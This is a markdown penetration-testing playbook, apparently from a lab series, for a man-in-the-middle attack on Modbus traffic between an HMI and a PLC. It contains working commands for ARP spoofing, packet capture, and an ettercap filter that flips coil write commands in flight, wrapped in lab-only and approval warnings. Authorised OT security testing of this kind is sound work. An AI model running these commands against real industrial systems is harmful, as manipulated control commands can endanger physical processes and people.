

# Playbook 04 — Man-in-the-Middle

**Goal:** Position yourself between HMI and PLC; observe (and optionally modify) Modbus traffic.

**Time:** 20-60 minutes

**Risk:** 🔴 **High.** Can break the HMI↔PLC link, cause loss-of-view, or modify control commands.

⚠️ **Approval required for each test.** Lab-only.

---

## Why MITM Matters in OT

This is the canonical OT attack pattern — Stuxnet, Industroyer, TRITON all relied on it in some form. An attacker who controls the wire between HMI and PLC can:

- **Loss of view** — HMI shows safe values while real ones drift
- **Loss of control** — operator commands never reach the PLC
- **Manipulation of control** — different values reach the PLC than the HMI sent



---

## Prerequisites

- Identified HMI IP and PLC IP
- Authorization in writing
- Baseline capture of normal traffic (`tcpdump`, 5+ min) for comparison
- A way to monitor process state independently (real HMI screen, console output, etc.)

---

## Step 1 — Enable IP Forwarding

The container needs to forward packets between HMI and PLC:

```bash
kali -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
```

Since `kali-red` shares the host network namespace, this affects the **host**. Verify and remember to reset after:

```bash
kali -c "cat /proc/sys/net/ipv4/ip_forward"   # should be 1
# After the test:
kali -c "echo 0 > /proc/sys/net/ipv4/ip_forward"
```

## Step 2 — ARP Spoof Both Directions

```bash
HMI=192.168.1.30
PLC=192.168.1.95
IFACE=eth0   # whatever your lab NIC is named on the host

# Tell HMI that PLC's MAC is ours
kali -c "arpspoof -i $IFACE -t $HMI -r $PLC" &
ARPSPOOF_PID=$!

# Now both sides
```

In a separate shell:

```bash
kali -c "arpspoof -i $IFACE -t $PLC -r $HMI"
```

## Step 3 — Observe with `tshark`

```bash
kali -c "tshark -i $IFACE -Y modbus -T fields \
  -e ip.src -e ip.dst -e modbus.func_code -e modbus.reference_num -e modbus.regval_uint16"
```

## Step 4 (Optional, Most Dangerous) — Modify In-Flight

Use `ettercap` with a custom filter, or run a transparent Modbus proxy that rewrites values:

```bash
# Filter file: flip-coil.filter
cat > /tmp/flip-coil.filter <<'EOF'
if (tcp.dst == 502 && search(DATA.data, "\x05")) {
    msg("Coil write intercepted");
    # Modify the value byte from 0xFF (on) to 0x00 (off)
    replace("\xFF\x00", "\x00\x00");
}
EOF

kali ettercap_compiler /tmp/flip-coil.filter -o /tmp/flip-coil.ef

kali ettercap -T -F /tmp/flip-coil.ef -M arp:remote /$HMI// /$PLC//
```

## Step 5 — Stop the Attack

```bash
kill $ARPSPOOF_PID   # also stop the second arpspoof
# Reset ARP cache on the host
kali -c "ip neigh flush all"
# Disable forwarding
kali -c "echo 0 > /proc/sys/net/ipv4/ip_forward"
```

Wait 30-60 seconds for ARP caches on HMI/PLC to re-learn correct MACs.

## Step 6 — Restore and Verify

- Confirm HMI and PLC are talking directly again (capture and check MAC addresses)
- Confirm any modified values were reset
- Log everything to `writes.log` and `notes.md`

---

## MITRE ATT&CK for ICS

- [T0830 Adversary-in-the-Middle](https://attack.mitre.org/techniques/T0830/)
- [T0832 Manipulation of View](https://attack.mitre.org/techniques/T0832/)
- [T0831 Manipulation of Control](https://attack.mitre.org/techniques/T0831/)
- [T0856 Spoof Reporting Message](https://attack.mitre.org/techniques/T0856/)

## Next

→ [Playbook 05 — DoS](05-dos.md)
